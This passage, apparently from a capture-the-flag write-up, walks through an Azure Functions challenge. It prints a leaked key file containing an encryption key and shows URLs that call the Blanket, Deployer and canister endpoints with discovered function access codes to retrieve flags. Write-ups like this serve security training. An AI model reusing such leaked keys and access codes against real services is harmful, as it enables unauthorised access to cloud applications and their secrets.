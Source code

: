 
**blanket.json**


```json
{
  "keys": [
    {
      "name": "default",
      "value": "CfDJ8AAAAAAAAAAAAAAAAAAAAAD9wsuBOAoIYUE14L8q6MaGzJyQFotW7XZSn1Cf4xTtXF6Pm8RDXB7vRJrmmL0krT0D8O7bZs5dQGED51rUcadQLvGaYYH4aPJzx9lfXarajHe6ZCjChYEU3jtcy265ueSa1k-J6hz2XmP6kjI-gB0yxt3zCf0rkhJOjgR6-6DI3w",
      "encrypted": true
    }
  ],
  "hostName": "rosarray.azurewebsites.net",
  "instanceId": "0000000000000000000000002B233D22",
  "source": "runtime",
  "decryptionKeyId": "AzureWebEncryptionKey=71K9CPtGDRphMirq9D21FkBghc3YmeQlIbrYA93zK1c=;"
}
```


`deployer.json`, `canister.json`, `blanket.json`: Likely represent different components or services within the application environment, each with its own set of keys for access and operation.

They all share the same `decryptionKeyId`, which implies they use the same encryption key for encrypting and decrypting the stored keys.

Lets now continue testing if we get any results with `blanket` and `deployer` functions:


```bash
http://rosarray.azurewebsites.net/api/Blanket?code=4YLHkGDuJGryZzbJhCZSyPEnl554oTU2U_lQDEl1h6YMAzFuLeZBDQ==
http://rosarray.azurewebsites.net/api/Deployer?code=4YLHkGDuJGryZzbJhCZSyPEnl554oTU2U_lQDEl1h6YMAzFuLeZBDQ==
```

![image](https://gist.github.com/assets/58165365/c4f262c6-ac91-44d6-87bb-de2cb7c36307)

![image](https://gist.github.com/assets/58165365/67f6e0b6-fb7f-4ce7-8832-e3139e3495bf)

I did not succeed with deployer but i got a flag on `blanket`

Moving on, let's use the code we found in the python script to access the canister function:

```bash
http://rosarray.azurewebsites.net/api/canister?code=7CIzVAz1-SRtgbuwRG-PMTnL_BYbDhGaXrU-S-ZTEpDGAzFuCDmwrA==
```

![image](https://gist.github.com/assets/58165365/041dc0c7-34d6-43f4-97be-3e9a94941724)

We get some statistics in a JSON format. We also find a key potentially usable with the `deployer` function as highlighted. Towards the end of the json you also get **Flag 5** 🚩

![image](https://gist.github.com/assets/58165365/36a24ae3-cb04-47b5-b5ad-e6881d0cc371)
